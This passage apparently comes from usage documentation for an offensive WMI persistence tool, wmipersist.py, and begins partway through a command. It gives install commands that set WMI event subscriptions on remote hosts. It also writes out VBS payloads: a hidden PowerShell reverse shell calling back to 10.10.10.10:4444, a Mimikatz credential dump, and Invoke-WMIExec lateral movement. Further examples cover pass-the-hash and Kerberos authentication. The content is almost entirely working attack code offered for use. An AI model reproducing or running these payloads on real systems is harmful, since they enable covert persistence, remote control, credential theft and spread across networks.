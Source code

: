 ```bash
  -filter 'SELECT * FROM __InstanceCreationEvent WITHIN 10 WHERE TargetInstance ISA "Win32_LogonSession"'

# Monitor file creation in sensitive directories
python3 wmipersist.py domain.com/admin:password@192.168.1.100 install \
  -name FileMon -vbs file_monitor.vbs \
  -filter 'SELECT * FROM __InstanceCreationEvent WITHIN 1 WHERE TargetInstance ISA "CIM_DataFile" AND TargetInstance.Path LIKE "%\\System32\\%"'
```

### Payload Examples
```bash
# Reverse shell payload
cat > reverse_shell.vbs << 'EOF'
Dim objShell, objExec
Set objShell = CreateObject("WScript.Shell")
Set objExec = objShell.Exec("powershell.exe -WindowStyle Hidden -Command ""$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',4444); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){; $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i); $sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> '; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte,0,$sendbyte.Length); $stream.Flush()}; $client.Close()""")
EOF

# Credential harvesting payload
cat > cred_harvest.vbs << 'EOF'
Dim objShell
Set objShell = CreateObject("WScript.Shell")
objShell.Run "powershell.exe -WindowStyle Hidden -Command ""Invoke-Mimikatz -DumpCreds | Out-File C:\Windows\Temp\creds.txt -Append""", 0, False
EOF

# Lateral movement payload
cat > lateral_move.vbs << 'EOF'
Dim objShell
Set objShell = CreateObject("WScript.Shell")
objShell.Run "powershell.exe -WindowStyle Hidden -Command ""Invoke-WMIExec -Target 192.168.1.101 -Username admin -Password password -Command 'whoami > C:\Windows\Temp\lateral.txt'""", 0, False
EOF
```

### Authentication Methods
```bash
# Using NTLM hashes
python3 wmipersist.py domain.com/admin@192.168.1.100 install \
  -name HashAuth -vbs payload.vbs -timer 300000 \
  -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76

# Using Kerberos authentication
python3 wmipersist.py domain.com/admin@192.168.1.100 install \
  -name KerbAuth -vbs payload.vbs -timer 300000 -k -dc-ip 192.168.1.10

# Using AES key for Kerberos
python3 wmipersist.py domain.com/admin@192.168.1.100 install \
  -name AESAuth -vbs payload.vbs -timer 300000 \
  -aesKey a1b2c3d4e5f6789abcdef0123456789a
```
